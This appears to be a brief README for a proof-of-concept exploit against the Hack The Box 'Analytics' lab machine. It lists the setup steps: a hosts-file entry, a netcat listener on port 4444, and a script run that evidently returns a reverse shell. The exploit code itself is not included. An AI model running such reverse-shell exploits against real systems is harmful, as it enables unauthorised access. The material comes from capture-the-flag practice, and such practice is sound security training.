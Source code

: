# HTB_Analytics

Usage: python3 HTB_Analytics_poc.py \<listener ip\> \<listener port\>

<p>1. echo "10.10.11.233 data.analytical.htb" >> /etc/hosts</p>
<p>2. nc -nvlp 4444</p>
<p>3. python3 HTB_Analytics_poc.py 10.10.14.1 4444</p>
